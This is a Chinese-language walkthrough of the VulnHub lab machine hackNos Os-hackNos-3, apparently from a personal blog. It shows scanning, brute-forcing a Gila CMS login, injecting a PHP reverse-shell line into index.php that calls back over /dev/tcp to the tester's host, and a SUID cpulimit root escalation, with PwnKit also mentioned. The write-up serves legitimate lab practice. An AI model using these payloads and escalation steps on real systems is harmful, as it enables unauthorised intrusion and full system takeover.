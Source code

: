 # hackNos: Os-hackNos-3

2025.02.19 https://www.vulnhub.com/entry/hacknos-os-hacknos-3,410/

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

扫描发现http://192.168.5.40/upload.php ffuf 探测一下参数，没找到。

看到 80 首页底部提示：find the Bug You need extra WebSec , 访问 http://192.168.5.40/websec/ 目录得到新的页面，gobuster 再次扫描，发现登陆页面，title 显示 Gila CMS 看看有没有爆出的漏洞，发现 RCE https://www.exploit-db.com/exploits/51569 但是需要用户凭据。

在首页底部发现了一个邮箱：contact@hacknos.com 需要找到密码，使用一个简单的密码字典进行爆破，得到了密码为 Securityx , 在扫描时需要调低扫描速度，系统会对登陆速率进行检测。

然后再次执行 51569 exp ，但是执行后是 404，exp 有问题，手动执行，在系统后台左侧 Content -> File Manager -> 编辑 index.php 文件，添加如下内容：

http://192.168.5.40/websec/admin/fm?f=./index.php

```
system('/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"');
```

然后访问： curl http://192.168.5.40/websec/ 在 kali 上获得了反弹 shell。

先拿到了 user flag：

```
www-data@hacknos:/home/blackdevil$ cat user.txt
bae11ce4f67af91fa58576c1da2aad4b
```

发现 suid 程序：

```
www-data@hacknos:/home/blackdevil$ /usr/bin/cpulimit -l 100 -f -- /bin/sh -p
Process 2989 detected
# cd /root
# cat root.txt
########    #####     #####   ########         ########
##     ##  ##   ##   ##   ##     ##            ##     ##
##     ## ##     ## ##     ##    ##            ##     ##
########  ##     ## ##     ##    ##            ########
##   ##   ##     ## ##     ##    ##            ##   ##
##    ##   ##   ##   ##   ##     ##            ##    ##
##     ##   #####     #####      ##    ####### ##     ##


MD5-HASH: bae11ce4f67af91fa58576c1da2aad4b

Author: Rahul Gehlaut

Blog: www.hackNos.com

Linkedin: https://in.linkedin.com/in/rahulgehlaut
```

同时也可以利用 CVE-2021-4034 PwnKit 直接提权到 root。
